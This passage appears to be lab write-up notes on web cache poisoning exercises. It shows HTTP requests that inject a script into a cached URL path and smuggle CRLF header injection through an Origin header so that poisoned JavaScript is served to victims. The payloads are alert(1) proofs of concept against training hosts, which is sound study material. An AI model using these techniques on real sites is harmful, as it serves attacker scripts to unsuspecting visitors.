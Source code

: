     callback=alert(1)

Notice the `alert(1)` function is called instead. Resend this request until a `X-Cache: miss` header appears. Resend it one more time to make the cache server store our malicious response and serve it to the victim whenever he visits the home page.

### LAB: URL normalization
Try make this request:

    GET /post/commentabcxyz HTTP/2

Notice the response is reflecting our request target:

    <p>Not Found: /post/commentabcxyz</p>

Now send this request to inject our script:

    GET /post/comment<script>alert(1)</script> HTTP/2

Resend it to make cache server store it and submit this URL to the victim:

    https://0ad500a80402b786813207a2002400e2.web-security-academy.net/post/comment<script>alert(1)</script>

Even with the URL encoding, the normalization makes it appears to be the same cache key and the victim will be served with our malicious response.

### LAB: Cache key injection
Send this request to abuse the CRLF + XSS vulnerabilty:
```
Request:

GET /js/localize.js?lang=en?utm_content=1&cors=1 HTTP/2
Host: 0ab200a404c2741880573abb004b00cf.web-security-academy.net
Pragma: x-get-cache-key
Origin: x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$

Response:

HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Access-Control-Allow-Origin: x
Cache-Control: max-age=35
Age: 2
X-Cache-Key: /js/localize.js?lang=en?cors=1$$origin=x%0d%0aContent-Length:%208%0d%0a%0d%0aalert(1)$$
X-Cache: hit
Content-Length: 8

alert(1)
```
Chain that with this request:
```
Request:

GET /login?lang=en?utm_content=1%26cors=1$$origin=x%250d%250aContent-Length%3a%25208%250d%250a%250d%250aalert(1)%23 HTTP/2
Host: 0ab200a404c2741880573abb004b00cf.web-security-academy.net
Pragma: x-get-cache-key

Response:

HTTP/2 302 Found
Location: /login/?lang=en?utm_content=1%26cors=1$$origin=x%250d%250aContent-Length%3a%25208%250d%250a%250d%250aalert(1)%23
Vary: origin
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
```